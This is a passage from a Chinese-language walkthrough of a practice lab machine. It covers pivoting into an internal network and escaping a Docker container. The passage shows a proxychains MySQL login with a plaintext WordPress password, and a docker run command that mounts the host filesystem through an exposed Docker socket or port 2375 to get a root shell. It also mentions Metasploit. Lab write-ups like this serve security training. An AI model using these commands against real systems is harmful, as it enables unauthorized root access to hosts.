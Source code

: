 proxychains mysql -u wordpress -pWordPressISBest -h 172.18.0.4![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1oBmrv72vJtPKicyZ3ib9OdVoib1wfWgEgia3Wy0WIZw7kibkNH61iaGosNvDib48nnBg8DXDDerDqgCQYA/640?wx_fmt=png&from=appmsg "")  
验证成功  
  
这个容器docker.sock允许与 docker 通信，意味着创建、添加、删除容器，因此有一个技巧可以通过上传docker和运行命令docker run -it -v /:/host/ <container_name> chroot /host/ bash二进制文件将主机系统挂载到 docker 容器上，而不是我们有 docker 端口，我们可以访问这些容器，这样我们就可以远程做这个  
  
如果开启了2375端口：  
  
docker -H tcp://192.168.253.182:2375 run --rm -it -v /:/host wordpress chroot /host bash  
  
至此攻击结束  
### 8、msf大法（方法三）  
  
这里就不一一介绍了，后续会出利用ssh密钥提权的方法，今天先休息了  
### 9总结：  
  
这台靶机本质可以理解内网穿透的联系，这个应该是重点，个人理解的话，是这个靶机的特色，所以还是要多学习，包括还有ssh密钥的方法，后续再说吧，今天出门运动去了，Neo-reGeorg其实这个工具和frp差不多,我私下再去学吧，如果有想了解到小伙伴可以留言，想看的话可以出一期  
  
各种方法都挂在下面了，我是利用的一个api接口漏洞，感兴趣的可以自己找一找 参考文章：https://www.freebuf.com/vuls/347867.html https://www.cnblogs.com/jason-huawen/p/16859959.html https://mp.weixin.qq.com/s?__biz=MzkzNjg3NzIwOQ==&mid=2247486466&idx=1&sn=23597160b15e8dea0f134b43cb380690 https://cn-sec.com/archives/892445.html  
  
  
